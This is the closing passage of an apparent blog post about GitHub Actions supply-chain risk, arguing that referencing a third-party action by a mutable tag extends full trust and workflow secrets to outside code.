This enables detection instead of post-incident discovery.

## Conclusion — You're Not Just Importing Functionality

I started this project wanting to understand GitHub Actions better.

I ended up understanding something about trust.

The workflow could access secrets. The runner exposed metadata. A third-party action inherited those capabilities without any changes to the victim repository. And a simple mutable tag determined which code ultimately executed.

The next time you see this in a workflow file:

```yaml
uses: some-action@v1
```

Remember what you're actually doing.

You're not importing a library. You're not calling a function.

**You're extending unconditional trust to someone else's code — and granting it access to everything your workflow can touch.**

That's a significant decision. It deserves to be treated like one.


